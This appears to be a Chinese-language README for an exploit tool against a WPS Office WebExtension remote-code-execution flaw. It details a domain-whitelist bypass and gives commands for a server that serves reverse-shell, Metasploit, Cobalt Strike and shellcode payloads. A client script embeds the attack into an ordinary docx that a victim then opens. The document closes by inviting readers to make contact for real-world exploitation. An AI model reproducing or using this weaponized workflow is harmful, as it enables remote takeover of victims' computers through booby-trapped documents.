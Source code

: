 # WPS Office Rce

## 影响版本

* WPS Office 2023 个人版 < 11.1.0.15120
* WPS Office 2019 企业版 < 11.8.2.12085

## 漏洞介绍

### 什么是WebExtension

* Office 中的 WebExtension（通常称为 Office 插件或 Office 应用程序）是一种用于扩展 Microsoft Office 功能的技术。Office 插件使第三方开发者能够在 Office 应用程序中集成自己的服务和功能。这些插件采用跨平台的 Web 技术（如 HTML, CSS 和 JavaScript）开发，可以在不同的平台和设备上运行。

* 简单理解就是office内置了一个浏览器，可以解析`html/javascript/css`代码。

* 本次的漏洞，就是WPS在处理WebExtension时，未能正确的处理`javascript`代码，造成了溢出RCE。（可以参考之前chrome被爆出的RCE漏洞、微信 Windows 版 < 3.1.2.141存在RCE漏洞，比较类似）

### 漏洞利用限制

1.  购买`***wps.cn`的域名

* 既然是由WebExtension中的`javascript`造成的，那么就需要准备对应的html文件，WebExtension支持从第三方网站加载html，所以需要在公网开启web服务，用来共享html文件。

* 由于wps的限制，当我们加载第三方网站的html时，wps会进行提醒，大概如下面图片。

![Alt text](./assets/image-20230811152820721.png)

* 在WPS中，`wps.cn`的域名是在白名单中的，只要我们加载的资源在`wps.cn`的网站中，就不会有这个提示。但是我们是无法控制`wps.cn`的。
* 在WPS中，白名单检测存在漏洞，代码中可能使用了`http://.*?.wps.cn`的正则匹配，在这个匹配中，明显存在漏洞，我们只需要把html文件放在`http://hackwps.cn`的网站中，就可以绕过检测。
* 因此，想要利用这个漏洞，必须要购买一个域名，域名中只需要包含`wps.cn`即可，比如`hackerwps.cn`、`xxxwps.cn`。

2. 部署html文件到vps上，并且把域名绑定到vps

* 购买域名和vps后，需要把子域名 `clientweb.docer.wps.cn.***wps.cn`解析到购买的vps上，尽量套一层cdn，再使用nginx反向代理到搭建的服务上。（具体`域名/vps/cdn`可以自行学习部署。）
* 这里的子域名，必须为 `clientweb.docer.wps.cn.***wps.cn`，不然无法过白名单。

## 工具使用

* git clone项目

```
git clone https://github.com/ba0gu0/wps_rce
```

* 安装对应的依赖
* 程序需要使用`python3.8`以上的版本才能够正常运行。
* 程序只在`Mac/Linux`上进行了测试，Windows上运行出现问题，不再进行解答（自行找Linux虚拟机测试）。

```
cd wps_rce
pip install -r requirement.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
```

### 服务端

* 服务端在`server`目录下的`main.py`, 此python脚本的作用是用来生成html代码，同时支持生成shell、msf、cs反弹的代码。

* 需要购买域名`***wps.cn`
* 需要购买vps
* 需要将域名`clientweb.docer.wps.cn.***wps.cn`解析到vps上
* 此处运行`main.py`时，监听端口为80端口，需要使用root权限。

```
cd server
python main.py
```

![image-20230811153226311](./assets/image-20230811153226311.png)

* 默认情况下，为了方便和域名绑定，服务监听端口为80端口。
* 如果想使用nginx/caddy进行反向代理，可以自行修改端口。

![image-20230811153844569](./assets/image-20230811153844569.png)

### 服务端功能

* 直接访问域名解析的地址，或者vps的端口

![image-20230811154049949](./assets/image-20230811154049949.png)

* 此服务端基于网上公开的poc进行开发，访问对应的地址，可以直接生成对应程序的利用代码。


* url对应cs和msf的payload列表

| url地址                     | 平台 | payload                                          |
| --------------------------- | ---- | ------------------------------------------------ |
| /calc                       | 无   | 执行calc命令                                     |
| /shell/1.1.1.1/9000         | all  | 服务器监听：nc -lnvp 9000                        |
| /msf/tcp/1.1.1.1/9000       | msf  | windows/meterpreter/reverse_tcp                  |
| /msf/http/1.1.1.1/80        | msf  | windows/meterpreter/reverse_http                 |
| /msf/https/1.1.1.1/443      | msf  | windows/meterpreter/reverse_https                |
| /cs/http/1.1.1.1/80         | cs   | Beacon http                                      |
| /cs/https/1.1.1.1/443       | cs   | Beacon https                                     |
| /shellcode/base64_shellcode | 无   | 任意的windows可用的shellcode，需要进行base64编码 |

* 比如在绑定域名的情况下，访问`https://clientweb.docer.wps.cn.***wps.cn/calc`, 就会生成弹计算器的攻击payload。

* 访问`https://clientweb.docer.wps.cn.***wps.cn/msf/1.1.1.1/4444`, 就会生成msf上线的payload。

![image-20230811154424873](./assets/image-20230811154424873.png)


### 客户端

* 客户端在`client`目录下的`main.py`, 此python脚本的作用是用来生成docx文件的。
* 需要提供一个正常的docx文件，攻击payload将被插入到此docx中。
* 需要根据上面搭建的服务端，提供url地址，类似于`https://clientweb.docer.wps.cn.***wps.cn/shell/1.1.1.1/9000`

```
cd client
python main.py ~/Downloads/temp.docx http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000
```

![image-20230811152820733](./assets/image-20230811152820733.png)

#### 本地测试

* docx在利用的时候，需要购买`***wps.cn`的域名，如果没有域名，单纯的进行本地测试，可以修改电脑的hosts文件，手动绑定域名。
* 安装wps的有漏洞版本，修改hosts文件。
* 修改`C:\Windows\System32\drivers\etc\hosts`文件，添加`127.0.0.1    clientweb.docer.wps.cn.cloudwps.cn`（注意，此操作是为了方便本地测试，实际利用时必须购买域名。）
* 注意，上面添加的hosts文件中，`127.0.0.1`需要根据实际情况来填，此IP为运行的server端IP地址。如果server端就运行在本机，可以填`127.0.0.1`，如果运行在其他Linux服务器上，需要确认IP地址能否正常访问。
* 选择服务端payload，是弹计算器、反弹shell、反弹msf还是反弹cs。
* 如果反弹shell，则生成url，`http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000`，此处的`1.1.1.1`需要修改为运行nc命令的服务器的IP，此处的IP也可以使用域名。9000需要改为nc监听的端口。（注意，此处的IP和nc是单独的，就是为了接受shell，省事的话，可以直接用运行服务端的服务器去运行。）
* 使用客户端命令生成攻击docx文件，`python main.py ~/Downloads/temp.docx http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000`
* 将生成的`wps_office_rce_***.docx`文件，复制到安装wps的电脑，直接双击打开之前在客户端中。

## 实际利用

* 先买域名吧，有域名可以私聊沟通。
